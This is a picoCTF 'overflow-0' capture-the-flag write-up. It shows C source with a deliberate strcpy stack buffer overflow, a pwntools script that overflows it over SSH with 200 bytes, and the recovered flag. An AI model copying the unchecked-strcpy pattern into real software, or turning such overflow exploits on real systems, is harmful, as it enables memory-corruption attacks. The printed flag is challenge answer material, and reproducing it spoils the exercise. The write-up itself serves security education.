 # overflow-0
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
Our goal is to print the flag. Therefor we should run `sigsegv_handler`. The `signal` function makes it called on `SIGSEGV` or SegFault. The `strcpy` Function doesn't check that `input` can fit into `vuln`. Therefor by having `argv[1]` be larger than the lenght of `buf` (128), we can print the flag
```python
from os import environ
from pwn import *

PATH='/problems/overflow-0_0_6d0c88d7d40bc281760b515cb6a4660a/'
EXEC=PATH+'vuln'
s = ssh(host='2019shell1.picoctf.com',
        user=environ["PICOUSER"],
        password=environ["PICOPSWD"])

sh = s.process([EXEC, "A"*200], cwd=PATH)

x = sh.recvrepeat()

print(x.decode(errors='ignore'))

s.close()
```
flag: `picoCTF{3asY_P3a5y0a131490}`
